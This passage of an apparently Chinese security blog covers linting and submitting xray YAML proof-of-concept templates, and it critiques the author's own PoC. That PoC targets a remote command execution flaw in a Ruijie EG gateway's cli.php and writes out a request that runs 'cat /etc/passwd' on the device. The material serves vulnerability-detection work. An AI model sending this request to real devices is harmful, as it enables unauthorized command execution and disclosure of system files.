 - **报错原因：**  
文件名正则匹配规则：^(?:poc-yaml|custom|fingerprint-yaml)-[a-z0-9\\-]+$，可以注意到，后面匹配并没有大写字母。  
  
- **修改建议**  
：命名时，对照着官方文档的要求修改。  
  
  
  
  
当CEL表达式出现一些问题的时候cellint便会检测出，并给予修改意见，按照其修改后的样式修改即可  
  
  
当都修改完成后，便会如下图展示的反馈，这个时候便可以提交了。  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/FOh11C4BDicSUvDsd79z6JF7jeicfKOWiaQOvTdynManJ39RWrkWpHMd0s4iciahXibTPXwibibSpcxybN0RH64ERKxS6w/640?wx_fmt=png "")  
  
  
  
#### POC提交  
  
  
  
  
检测通过后，在  
[CT stack 安全社区 (chaitin.com)]  
(https://stack.chaitin.com/security-challenge/poc/list/editor)  
填写相关信息，添加测试环境地址（fofa/shodan语句），进行poc的提交。  
  
#### POC分析  
  
  
  
```
name: poc-yaml-******-eg-rce
rules:
  - method: POST
    path: "/cli.php?a=shell"
    follow_redirects: false
    body: |
      notdelay=true&command=cat /etc/passwd
    expression: |
      response.status == 200 && response.body.bcontains(b"\"status\":true,\"data\"") && response.body.bcontains(b"root")
detail:
  author: Jarcis
  links:
    - http://wiki.peiqi.tech/PeiQi_Wiki/%E7%BD%91%E7%BB%9C%E8%AE%BE%E5%A4%87%E6%BC%8F%E6%B4%9E/%E9%94%90%E6%8D%B7/%E9%94%90%E6%8D%B7EG%E6%98%93%E7%BD%91%E5%85%B3%20cli.php%20%E8%BF%9C%E7%A8%8B%E5%91%BD%E4%BB%A4%E6%89%A7%E8%A1%8C%E6%BC%8F%E6%B4%9E.html
```  
  
  
分析这个poc会发现，他虽然格式上没有什么问题，但匆忙写poc的我忽略了  
[编写高质量poc - xray]  
(https://docs.xray.cool/#/guide/high_quality_poc)  
这篇文章的内容，在编写的时候，匹配上选择检测到root这种不严谨的检测语句而不是root:[x*]:0:0:这样的正则检测。当然不同的版本可能内容也会有所变化，所以此处最好不使用这种方式来进行RCE的检测。  
  
  
其次，这个漏洞需要在以管理员身份登录的情况下才可以触发，在进行爬虫扫描的时候，基本不可能触发，所以这个poc如果只是单纯这样，用处也不大。应该结合另一个在登陆口处获取管理员账号密码的漏洞一起来使用才行。  
  